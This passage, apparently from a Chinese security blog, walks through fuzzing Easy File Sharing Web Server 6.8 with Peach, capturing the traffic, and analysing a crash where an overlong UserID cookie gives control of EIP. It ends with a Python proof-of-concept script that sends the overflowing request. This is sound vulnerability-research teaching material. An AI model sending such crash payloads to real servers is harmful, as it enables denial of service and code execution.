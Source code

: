  - pit文件中的##HOST##:##PORT## ： 是声明两个变量，该变量是在具体fuzz时由外界提供

 - Monitor模块中的PopupWatcher方法：是根据弹窗的title，自动关闭该弹窗

 - Strategy是Test模块的子元素，提供了参数Sequential，有序对DataModel中的每一个可变元素进行fuzz
​	
	2. 使用如下命令，
```sh
peach.exe -DHOST=192.168.222.131 -DPORT=80 efs.xml
```
   开启Peach开始对Easy file sharing web server 6.8 进行fuzz
![img](https://raw.githubusercontent.com/carterMgj/blog_img/master/2017-06-07-fuzz-EFS/9.png)
​	
	3. 整个fuzz过程就开始了，因为是Peach内置的TCP模块自动与服务器进行连接发包，为了搞清楚发包的过程和内容，我尝试着用wireshark抓包进行分析，令我意外的是竟然抓不到包。原来fuzz时发送的包发包地址和目的地址都是本地，是属于本地回环包，并没有进过Wireshark监听的本地网卡，所以抓不到包。解决方法也简单，就是通过命令行增加一条路由表
```sh
// 增加一条路由表项
// 192.168.222.131是本机ip ，192.168.222.1 是网关
route add 192.168.222.131 mask 255.255.255.255 192.168.222.1 metric 1
```
命令生效后，打印查看路由表，可以看到凡是发往192.168.222.131的数据包，均会先发往网关192.168.222.1，这样Wireshark就能抓到数据包了
![img](https://raw.githubusercontent.com/carterMgj/blog_img/master/2017-06-07-fuzz-EFS/10.png)
​	
	4. 从抓包结果分析，Peach是每次都会变换端口和服务器的80端口建立连接，发送包含畸形数据的HTTP包
![img](https://raw.githubusercontent.com/carterMgj/blog_img/master/2017-06-07-fuzz-EFS/11.png)
​	
	5. 现在需要做的就是等待。吃过饭回来，发现已经fuzz出了一堆crash
![img](https://raw.githubusercontent.com/carterMgj/blog_img/master/2017-06-07-fuzz-EFS/12.png)

>崩溃文件分析与Exp脚本编写
​	
	1. 在此Peach调用msec.dll已经根据崩溃现场将crash的利用程度进行了划分，一般情况下，我们只关注EXPLOITABLE文件夹内的crash。打开一个crash文件，发送的数据包中对UserID字段进行了fuzz，填充了很多个'A'，导致服务器处理该数据包时发生了crash
![img](https://raw.githubusercontent.com/carterMgj/blog_img/master/2017-06-07-fuzz-EFS/13.png)
​	
	2. 崩溃现场如下图所示：
![img](https://raw.githubusercontent.com/carterMgj/blog_img/master/2017-06-07-fuzz-EFS/14.png)
​     由上图可以看到，发生问题的指令是 call dword ptr[edx+28h]，因为 edx+28h 是一个不可访问的地址，所以发生了程序异常退出。再来看看寄存器，此时edx寄存器已经被填充成立0x41414141，也就是被我们的输入可以控制edx的值，由于当前指令为 call dword ptr[edx+28h]，我们也就间接的控制了eip的值，劫持了程序运行流
​	
	3. 接下来就进入到写利用的环节。我们首先通过python的socket模块进行编程，来模拟发包过程
```python
import socket
import struct
target = "192.168.222.131"
port = 80
payload = 'A'*1000
buf = (
"GET /vfolder.ghp HTTP/1.1\r\n"
"Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/x-shockwave-flash, application/xaml+xml, application/x-ms-xbap, application/x-ms-application, */*\r\n"
"Accept-Language: zh-cn\r\n"
"Accept-Encoding: gzip, deflate\r\n"
"If-Modified-Since: Fri, 11 May 2012 10:11:48 GMT; length=12447\r\n"
"User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; .NET4.0C; .NET4.0E)\r\n"
"Host: 192.168.222.131:80\r\n"
"Conection: Keep-Alive\r\n"
"Cookie: SESSIONID=2626; UserID=" + payload + "; PassWD=; \r\n\r\n"
)
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect((target,port))
s.send(buf)
```